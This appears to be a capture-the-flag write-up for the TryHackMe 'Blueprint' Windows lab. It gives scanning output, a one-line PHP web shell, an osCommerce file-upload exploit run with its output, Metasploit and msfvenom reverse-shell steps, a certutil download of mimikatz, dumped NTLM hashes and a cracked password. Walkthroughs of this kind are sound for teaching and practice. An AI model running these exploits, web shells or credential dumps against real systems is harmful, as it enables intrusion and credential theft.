 > Blueprint | Windows

**export IP=10.10.1.85**

# Nmap

nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
80/tcp    open     http          syn-ack     Microsoft IIS httpd 7.5
135/tcp   open     msrpc         syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack     Microsoft Windows netbios-ssn
443/tcp   open     ssl/http      syn-ack     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open     microsoft-ds  syn-ack     Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
1131/tcp  filtered caspssl       no-response
3306/tcp  open     mysql         syn-ack     MariaDB (unauthorized)
5120/tcp  filtered barracuda-bbs no-response
8080/tcp  open     http          syn-ack     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49153/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49154/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49158/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49159/tcp open     msrpc         syn-ack     Microsoft Windows RPC
49160/tcp open     msrpc         syn-ack     Microsoft Windows RPC
```

# SMB Anonymous Login

smbclient -L $IP

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
	Windows         Disk      
SMB1 disabled -- no workgroup available
```

In port `8080` we found oscommerce website and on directory bruteforcing we found an `install` page. It allows us to install oscommerce and I created and set the credentials as `admin:admin`

# Exploit

searchsploit oscommerce 2.3.4

```
osCommerce 2.3.4.1 - Arbitrary File Upload    | php/webapps/43191.py
```

## Note: This exploit requires a privileged account and a php shell

# shell.php

```
<?php
passthru($_GET('cmd'));
?>
```

And executing the exploit

python 43191.py -u http://$IP:8080/oscommerce-2.3.4 --auth admin:admin -f shell.php

```
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 1
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file shell.php uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.1.85:8080/oscommerce-2.3.4/catalog/admin/shell.php
```

Accessing `http://10.10.1.85:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=whoami` gives us `nt authority\system`

We have to get a stacle shell.

# Metasploit

use multi/http/oscommerce_installer_unauth_code_exec
set options
set URI /oscommerce-2.3.4/catalog/install
run

## Gives us a meterpreter session!

# Generating payload

msfvenom -p windows/reverse_tcp LHOST=tun0 LPORT=1234 -f exe > shell.exe

And upload `shell.exe` in the meterpreter session

Set up a netcat listener to catch it. On getting the reverse shell we find that the system is X86 architecture

# Mimikatz

Start a python server in local machine and upload it in the box using certutil

certutil.exe -urlcache -f http://$IP/mimikatz.exe mimikatz.exe

And running mimkatz.exe we are in!

lsadump::sam

```
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450
```

# Lab user NTLM decrypted

30e87bf999828446a1c1209ddde4c450 => Crackstation

`googleplus`

And navigating to the Desktop we get root.txt.txt

```
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```